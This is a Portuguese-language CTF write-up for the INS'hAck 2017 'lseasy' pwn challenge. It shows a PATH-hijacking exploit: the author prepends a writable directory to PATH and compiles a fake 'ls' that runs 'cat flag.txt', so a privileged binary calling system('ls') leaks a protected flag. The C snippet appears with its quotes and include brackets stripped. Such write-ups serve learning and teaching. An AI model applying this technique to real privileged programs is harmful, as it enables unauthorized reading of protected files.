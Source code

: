 ```yaml
---
layout: default
title: PWN1 - Explorando system() call [INS'hAck 2017] Write-up
date: 2017-04-18 19:47
author: brennords
comments: true
categories: [CTFs]
---
```

O <a href="https://ctftime.org/event/444">Ins'hAck</a> foi um ctf online que ocorreu do dia 6 de abril ao dia 9. Teve uns desafios bem interessantes e foi bem organizado pelo time <a href="https://ctftime.org/team/11869">InSecurity</a>.

Este write-up é referente ao primeiro nível de pwn e foi simples caso você já soubesse o caminho. Mas, sendo o noob que sou, demorei um pouco para sacar onde estava a falha e quando resolvi o chall fiquei feliz em ter aprendido algo novo.

A descrição era a seguinte:

<blockquote>My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh you_ssh_user@pwn1.ctf.insecurity-insa.fr

Note: Please see your profile to know you SSH creds.</blockquote>

Que em português seria:

<blockquote>Meu chuveiro não quer me dar água quente :/ talvez seja um hacker? :0 Você pode ajudar?</blockquote>

E logo abaixo as instruções para conectar ao ssh do ctf que ficou offline desde o fim da competição.

Mas não se desespere. Ainda é possível tentar resolver pegando <a href="https://github.com/HugoDelval/inshack-2017/raw/master/challenges/pwn/lseasy-75/public-files/lseasy.zip">neste link</a> uma cópia do desafio.

Dentro do arquivo zipado há um elf executável chamado <strong><em>lseasy</em></strong> acompanhado do seu código fonte <em><strong>vuln.c</strong></em>. Estes dois arquivos podiam ser encontrados dentro do servidor junto com o arquivo flag.txt. Obviamente este arquivo não tinha permissões de leitura para meu usuário atual, mas podia ser lido pelo usuário que <strong><em>lseasy</em></strong> rodava. É o tipo de coisa padrão nesses desafios xpl/pwn. O objetivo é explorar o desafio e seus privilégios para, de alguma forma, ler o arquivo da flag.

Ao se executar o binário pela primeira vez, se percebe que ele apenas lista os arquivos do diretório atual. Uma olhada no código fonte<strong><em> </em></strong>confirma que essa é sua única função:

<script src="https://gist.github.com/anonymous/537b9729bb928e98d5af400aae650168.js"></script>

Não há muito o que explicar. Perdi tempo tentando variadas maneiras ler a flag. Logo estava lendo a <a href="http://man7.org/linux/man-pages/man3/system.3.html">manpage da função system</a>. Parecia ser a única coisa restante a ser explorada. Na seção de notas encontrei um aviso que dizia para não usa-la em programas SUID porque valores das variáveis de ambiente podiam ser usados para subverter o sistema. Ok, é exatamente o objetivo. Mas a nota não dizia como fazer isso.

Pesquisei por "exploit system call" no google e encontrei um<a href="https://www.go4expert.com/articles/exploit-c-t24920/"> tutorial mastigado</a> de como explorar um programa de exemplo exatamente igual ao do chall.

O segredo é que system vai procurar pelo binário nos caminhos contidos na <a href="https://www.vivaolinux.com.br/artigo/O-que-e-PATH-como-funciona-e-como-trabalhar-com-ele">variável de sistema <strong>PATH</strong></a>. E, como nada impede a alteração desta variável, é possível adicionar um caminho arbitrário.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ PATH=$HOME/Docs/ctf/inshack2017/pwn1:$PATH
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/home/brenno/Docs/ctf/inshack2017/pwn1:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

O primeiro comando printa minha variável PATH atual, no segundo eu adiciono o caminho "$HOME/Docs/ctf/inshack2017/pwn1" no ínicio da varíavel de sistema e o terceiro printa o conteúdo alterado.

Agora, sempre que system for procurar o binário de ls, vai olhar primeiro dentro de "$HOME/Docs/ctf/inshack2017/pwn1". E é onde criei um ls mais coerente com meu objetivo.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ cat ls.c
#include stdio.h

int main() {
system(cat flag.txt);
return 0;
}
^C
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ gcc ls.c -o ls
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ ./lseasy
The content of the current folder is :
INSA{SySt3m_1s_3v1l_-}
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$
```

Na primeira parte criei um simples programa em C usando a mesma função system para executar o comando <strong>cat flag.txt</strong>. Então o compilei dando o nome de ls e, ao executar o binário lseasy pode-se ver que ao invés de imprimir o conteúdo da pasta, ele imprime o conteúdo de flag.txt.

